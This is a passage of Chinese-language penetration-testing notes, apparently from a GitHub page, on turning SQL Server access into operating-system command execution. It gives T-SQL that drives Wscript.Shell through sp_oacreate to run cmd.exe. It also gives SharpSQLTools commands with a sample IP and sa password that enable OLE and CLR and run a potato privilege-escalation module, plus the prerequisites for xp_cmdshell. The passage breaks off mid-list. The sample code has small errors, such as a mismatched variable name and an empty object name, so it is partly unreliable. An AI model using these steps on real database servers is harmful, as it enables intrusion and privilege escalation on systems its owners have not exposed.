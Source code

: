 ****

###### ②2个方法+COM组件

```mssql
declare @luan int,@exec int,@text int,@str varchar(8000);
EXEC sp_oacreate ' ',@luan output;	//该句柄对应Wscript.Shell
EXEC sp_oamethod @luan,'exec',@exec output,'C:\windows\system32\cmd.exe /c whoami';
EXEC sp_oamethod @exec,'stdOut',@text out;
EXEC sp_oamethod @test,'readall',@str out;
select @str;
```

****

###### ③使用工具

* 使用**SharpSQLTools**，可实现上传、下载文件，**xp_cmdshell与sp_oacreate双回显**和clr加载程序集执行相应功能

```mssql
SharpSQLTools.exe 192.168.172.150 sa[username] ICQsafe666[password] master enable_ole
SharpSQLTools.exe 192.168.172.150 sa[username] ICQsafe666[password] master sp_oacreate whoami
```

#### (3). 本地存储过程

* 利用CLR(Common Language Infrastruvture,公共语言基础结构，使用工具**SharpSQLTools**

```mssql
SharpSQLTools.exe 192.168.172.150 [username] [password] master install-clr
SharpSQLTools.exe 192.168.172.150 [username] [password] master enable_clr
SharpSQLTools.exe 192.168.172.150 [username] [password] master clr_efspotato whoami
```

#### (4). 扩展存储过程

* 以 ``xp_`` 开头，主要使用**外部程序语言**编写的存储过程

##### a. 使用前提

> 1. 当前用户拥有**DBA权限**
>
> 2. 依赖于**xplog70.dll**
>
> 3. 存储过程存在并已启用
>
>    ```mssql
>    EXEC sp_configure 'show advanced options',1;
>    RECONFIGURE WITH OVERRIDE;
>    ```

##### b. 流程

1. 判断是否为DBA权限
	
	```mssql
	select is_srvrolemember('sysadmin');	
	```
2. 查看是否存在xp_cmdshell
	